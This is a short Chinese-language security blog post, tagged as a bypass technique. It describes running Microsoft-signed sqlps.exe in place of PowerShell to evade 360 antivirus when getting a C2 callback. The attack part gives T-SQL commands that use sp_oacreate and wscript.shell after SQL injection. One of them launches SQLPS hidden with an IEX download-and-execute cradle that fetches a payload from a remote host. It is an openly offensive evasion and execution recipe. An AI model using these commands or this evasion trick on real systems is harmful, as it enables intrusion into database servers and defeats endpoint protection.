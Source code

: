 ```yaml
---
layout: post
title: sqlps替代powershell
tags: bypass
---
```


# sqlps替代powershell
## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190210.png)

此文件本身自带微软签名：

![image-20220315190237951](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190237.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190323.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191524.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191648.png)



![image-20220315191725621](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191725.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315192329.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315193426.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
